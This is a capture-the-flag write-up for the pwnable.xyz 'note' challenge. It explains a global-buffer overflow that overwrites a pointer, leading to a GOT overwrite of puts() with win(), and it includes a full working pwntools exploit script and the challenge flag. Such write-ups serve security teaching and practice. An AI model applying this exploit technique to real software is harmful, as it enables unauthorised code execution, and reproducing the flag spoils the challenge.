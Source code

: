 # pwnable.xyz - note
Link to binary: https://pwnable.xyz/redisfiles/challenge_37.gz

Description: *Note taking 101*
 
## binary
Running `checksec` on the binary, shows that the following protections are enabled:  
![](images/checksec.png)

## ./challenge
Running the binary prints a menu and lets us edit a **note** or a **description**.  
We can specify the length of the note which might be interesting. Also, the fact that **RELRO** and **PIE** are both disabled might hint to a **got overwrite**.   
Let's decompile with **IDA** to have a better look.

## IDA
### main()
![](images/main.png)

The `main()` function just prints the menu and calls either `edit_note()` or `edit_desc()` depending on user input.

### edit_note()
![](images/edit_note.png)

The `edit_note()` function takes an integer from the user, which represents the note length and allocates a buffer of that size. It then asks the user to input a note, which can't be larger than the buffer's size. The buffer with the note is copied to an `s` variable, and the buffer is freed.

### edit_desc()
![](images/edit_desc.png)

The `edit_desc()` function checks if `buf` is allocated. If not, it allocates 32 bytes and reads from standard input into the buffer and up to 32 bytes.

## vulnerability
Both `s` and `buf` are global variables, so they can be found in the .bss section. Checking the .bss section with IDA, we can see that `s` is 32 bytes long and `buf` is a pointer to the memory located right after `s`. Since we control how many bytes will be written to `s`, we are able to overflow and overwrite `buf`. Then by using `edit_desc()` we can modify the memory that `buf` is pointing to.

## attack plan
Our goal is to call `win()` which prints the flag, but it isn't used anywhere in the code.  
We can send 32 bytes to fill `s` and then the address of a function in the **got table** that we want to **overwrite** and make it point to `win()`. A good candidate here is `puts()`. This way, on the next call of `puts()`, `win()` will get called instead.

## debugging
We choose option `1. Edit note.` and send 32 bytes along with the address of puts() at GOT table `elf.got.puts`, which will overwrite `buf`.  
Then we choose `2. Edit desc.` and send the address of `win()`.  
Here is what buf looks like before writing the address of win:  
![](images/buf.png)

Now if we check `puts()` in the GOT we can see that it's overwritten by `win()`:
![](images/puts_win.png)

Then we provide an invalid option to call `puts("Invalid")` and we get the flag.

## exploit  

```python  
#!/usr/bin/python
from pwn import *

elf = context.binary = ELF("./challenge", checksec=False)
context.terminal = ['alacritty', '-e']
context.encoding = 'ascii'
context.gdbinit = '~/.config/gdb/.gdbinit'

gs = \
'''
b edit_note
b edit_desc
'''

IP = "svc.pwnable.xyz"
PORT = 30016

def start(logging='notset'):
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    elif args.REMOTE:
        return remote(IP, PORT, level=logging)
    else:
        return process(elf.path, level=logging)

def pwn():
    io = start()

    io.sendlineafter("> ", "1")
    io.sendlineafter("? ", "40")
    payload = flat([
        "A" * 32,
        elf.got.puts
    ])
    io.sendafter(": ", payload)

    io.sendlineafter("> ", "2")
    io.sendlineafter(": ", pack(elf.sym.win))

    io.sendlineafter("> ", "3")

    io.interactive()

if __name__ == "__main__":
    pwn()
```

`FLAG{useless_if_u_cant_print_the_note}`